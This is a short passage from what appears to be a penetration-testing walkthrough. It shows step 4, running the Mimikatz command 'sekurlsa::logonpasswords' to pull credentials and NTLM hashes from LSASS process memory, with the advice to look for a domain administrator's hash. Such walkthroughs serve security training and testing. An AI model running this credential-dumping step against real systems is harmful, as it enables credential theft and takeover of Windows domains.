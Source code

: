 4. **Extract NTLM Hashes:**

```powershell
mimikatz # sekurlsa::logonpasswords
```

* Extracts credentials from the **LSASS** process memory, including **NTLM** hashes for all active sessions.
* Look for the **NTLM hash** of a domain administrator account.

![NTLM Hash Extraction](/assets/image-18.png)
![Administrator Hash Found](/assets/image-19.png)

